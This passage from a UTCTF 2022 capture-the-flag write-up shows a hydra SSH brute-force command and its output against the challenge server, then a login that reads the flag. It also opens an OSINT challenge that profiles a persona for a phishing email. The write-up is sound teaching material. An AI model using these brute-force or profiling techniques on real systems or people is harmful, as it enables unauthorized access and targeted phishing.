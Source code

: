... which we can then feed to hydra with our password, to brute force the service:

```bash
hydra -t 2 -L accounts.txt -p defaultpw5678! ssh://misc2.utctf.live:8622
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-03-13 13:02:32
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 2 tasks per 1 server, overall 2 tasks, 11 login tries (l:11/p:1), ~6 tries per task
[DATA] attacking ssh://misc2.utctf.live:8622/
[8622][ssh] host: misc2.utctf.live   login: cshackleford   password: defaultpw5678!
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-03-13 13:03:15
```

Boom, we have the login! `[8622][ssh] host: misc2.utctf.live   login: cshackleford   password: defaultpw5678!` tells us we can login with `cshackleford` and the password.

Doing so gets us the flag:

```bash
ssh -p 8622 cshackleford@misc2.utctf.live
cshackleford@misc2.utctf.live's password:
# ...
cshackleford@3e64db1cbff7:~$ cat flag.txt
utflag{conventions_knowledge_for_the_win}
```

Flag is `utflag{conventions_knowledge_for_the_win}`.

_(Shoutout to Rob H., the challenge creator, for being a standup person and not being a total dick when you ask them something, really appreciate it)_.


### Osint Full
> Find out the following information about EddKing6 The name of his dog? His favourite video game? His alma mater? His Role at his company? His favorite food? His Email?
>
> The email will have the strings "blob" and "corp" in it any other email is out of scope. Deviant Art and Soundcloud are out of scope Then send him a carefully crafted phishing email including all the details.
>
> Pls check spam if you don't see the reply email within 5 minutes. By Emma(@Emma on discord)

So this one looks to be full blown OSINT. All we're given is "EddKing6", a supposed username.

Doing a duckduckgo search for specifically that term (i.e searching for "EddKing6", with quotes) [yields a frew interesting results](https://duckduckgo.com/?q=%22eddking6%22&atb=v247-1&ia=web):

* [Edd King Github profile](https://github.com/eddking6)
* [Edd King Twitter](https://twitter.com/eddking6)
* [Edd King github repo "DogFeedScheduler"](https://github.com/eddking6/DogFeedScheduler)

Looking at his Github profile:
